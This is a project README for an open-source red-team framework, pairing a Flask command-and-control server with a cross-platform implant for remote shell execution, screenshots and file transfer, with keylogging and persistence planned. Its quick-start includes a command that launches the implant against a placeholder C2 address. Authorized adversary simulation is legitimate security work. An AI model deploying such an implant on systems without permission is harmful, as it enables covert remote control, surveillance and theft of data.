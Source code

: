 # RedTeam Adversary Simulation Framework

A modular, Python-based Red Team adversary simulation framework for offensive security and red teaming exercises.

⚠️ **DISCLAIMER**: This framework is for educational and authorized penetration testing purposes only. Use only on systems you own or have explicit permission to test. Unauthorized use is illegal and unethical.

## 🚀 Features

- **Modular Command & Control (C2) server** - Flask-based web interface
- **Cross-platform Python agent** - Works on Windows, Linux, and macOS
- **Secure communication** - HTTP/HTTPS support with encryption capabilities
- **Modular attack techniques** - Shell execution, screenshot capture, file transfer
- **MITRE ATT&CK mapping** - Techniques mapped to MITRE framework
- **Easy to extend** - Simple module system for adding new capabilities
- **Interactive C2 controller** - Command-line interface for operator interaction

## 📁 Project Structure

```
advance_redteam_framework/
├── README.md                    # This file
├── requirements.txt             # Python dependencies
├── mitre_mapping.md            # MITRE ATT&CK technique mapping
├── c2/                         # Command & Control server
│   ├── server.py              # Main C2 server (Flask app)
│   └── modules/               # Attack modules
│       ├── __init__.py
│       ├── screenshot.py      # Screenshot capture
│       └── shell.py           # Remote shell execution
├── agent/                     # Agent/Implant
│   └── agent.py              # Main agent code
├── utils/                     # Utilities
│   └── comms.py              # Communication utilities
├── test_c2.py                # C2 testing script
└── c2_controller.py          # Interactive C2 controller
```

## Quick Start

1. **Clone the repository:**
   ```bash
   git clone https://github.com/yourusername/redteam-framework.git
   cd redteam-framework
   ```

2. **Install dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Start the C2 server:**
   ```bash
   python c2/server.py
   ```

4. **Run the agent on a test machine:**
   ```bash
   python agent/agent.py --server https://<C2_SERVER_IP>:5000
   ```

5. **Add your own modules in `c2/modules/` and integrate with the C2!**

## Example Modules

- Remote shell execution
- Screenshot capture
- File upload/download
- Keylogging (to be added)
- Persistence (to be added)

## Legal Notice

For educational, ethical, and authorized Red Team use only. Do **not** deploy on systems you do not own or have explicit permission to test!

## MITRE ATT&CK Mapping

See `mitre_mapping.md` for coverage.

---

Happy hacking!